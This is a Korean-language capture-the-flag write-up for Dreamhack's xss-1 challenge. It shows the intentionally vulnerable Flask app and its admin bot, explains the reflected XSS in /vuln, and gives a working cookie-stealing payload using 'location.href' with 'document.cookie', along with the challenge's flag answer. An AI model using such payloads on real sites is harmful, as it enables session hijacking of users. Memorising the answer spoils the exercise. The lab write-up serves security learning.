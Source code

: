 코드의 자세한 설명은 다음 사이트에서 참고했다. **https://velog.io/@mm0ck3r/Dreamhack-xss-1**  
문제는 **여러 기능과 입력받은 URL을 확인하는 봇이 구현된 서비스입니다. XSS 취약점을 이용해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.** 이다.  

우선 코드를 봤다.  

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)
```
코드를 보면, path가 여러가지 있다.  

<img src="3.jpg">  
1. / : index.html을 return 함  

<img src="4.jpg">  
2. /vuln : ``http://host3.dreamhack.games:24404/vuln?param=%3Cscript%3Ealert(1)%3C/script%3E`` 로 들어간다.  
-> 이 때, ``<script>``가 먹히는 것을 보고 XSS를 사용할 수 있다는 것을 알 수 있다.  

<img src="5.jpg">  
3. /memo : **/memo?memo=메모할 문자열** 과 같이 path를 지정하면, 메모할 문자열이 memo 창에 가면 메모된다.  
-> 우리는 여기에 flag를 출력하게 할 것이다.  

<img src="6.jpg">  
4. /flag : 답을 입력하는 곳  

여기까지 웹 사이트를 다 살펴보았고, 본격적으로 코드를 살펴본다.  

간단하게 설명하면, **/flag** 에서 param에 들어가는 값을 입력하면, 그 값과 cookie에 flag를 넣어서 ``http://127.0.0.1:8000/vuln?param=`` 뒤에 param(우리가 입력한 답, 정확히는 또 인코딩해서..) 을 붙여서 flag와 함께 url을 연다.  

즉, 그 사이트의 **cookie를 메모**하면 flag를 알 수 있다!!  

<img src="7.jpg">  

따라서 다음과 같이 ``<script>location.href = "/memo?memo=" + document.cookie;</script>`` 를 통해 cookie(즉, flag) 를 memo 한다.  

<img src="8.jpg">  

이렇게 flag가 memo 된 것을 알 수 있다.  

답은 **DH{2c01577e9542ec24d68ba0ffb846508e}** 이다.  
